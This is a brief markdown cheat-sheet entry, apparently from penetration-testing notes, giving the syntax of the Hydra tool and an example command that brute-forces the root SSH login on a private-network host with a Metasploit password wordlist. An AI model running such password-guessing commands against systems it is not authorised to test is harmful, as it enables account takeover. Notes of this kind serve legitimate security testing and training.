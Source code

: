 # Hydra 

## Syntax

`hydra -l [user] -P [Password List] [protocol]://[IP]:[Port] -t [# of Threads] -V`

**Example**

`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.134:22 -t 4 -V`
